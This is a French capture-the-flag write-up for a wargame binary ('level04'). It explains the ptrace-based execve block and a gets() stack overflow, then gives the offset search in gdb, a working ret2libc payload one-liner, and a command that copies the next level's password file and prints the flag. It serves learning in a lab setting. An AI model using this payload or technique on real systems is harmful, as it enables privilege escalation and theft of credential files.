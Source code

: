 # Level04

## Analyse

- Nous avons un programme avec une fonction main qui utilise la fonction fork() pour creer un processus enfant.

### Parent

- Le processus parent wait() le fils et le surveille avec ptrace().

- Le parent bloque l'utilisation de execve() dans l'enfant. Donc bloque l'utilisation de shellcode ou un execve est execute pour lancer un "/bin/sh". La comparaison de retour de la fonction ptrace() avec 11 est la pour bloquer les appels system a exec() car 11 est le numero du syscall a exec().

### Enfant

- prctl permet de configurer le signal envoye au processus si son parent meurt. SIGTERM est donc le signal qui sera envoye.

- ptrace() indique que ce processus doit etre trace par son parent, permet donc de surveiller et controler l'execution de l'enfant

- Le processus enfant utilise gets() qui est vulnerable aux buffer overflow. Le buffer alloue sur la stack est de 128 bytes.

## Exploitation

- On connait l'utilisation d'exploit comme le ret2libc qui permet de rediriger le flux d'execution vers un system(exit("/bin/sh")) et qui contourne la protection du exec().

- On peut trouver l'offset de la modification du saved eip de la fonction en envoyant un buffer overflow pattern. La particularite ici est qu'il n'y aura pas de segmentation fault car le parent wait(1) et le process run a l'infini. Il existe une option sur gdb pour suivre l'execution du fils : set follow-fork-mode child. En activant cette option on arrive a voir le segmentation fault et obtenir l'offset.

```
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 2252]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2252]
0x41326641 in ?? ()
```

- L'offset est de 156.

## Payload

- Il nous faut maintenant constituer notre payload, pour cela il nous faut l'adresse de system(), exit(), "/bin/sh".

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc mappings 
process 2253
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000, +0x1a0000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

- On a maintenant toutes les informations pour constituer notre payload 
: 
```
    system: 0xf7e6aed0
    exit: 0xf7e5eb70
    /bin/sh: 0xf7f897ec
```

### Commande

```
(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

- Pour obtenir le flag il faut effectuer une redirection vers un fichier pour pouvoir lire la sortie.

```
cat /home/users/level05/.pass > /tmp/flag

cat /tmp/flag
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```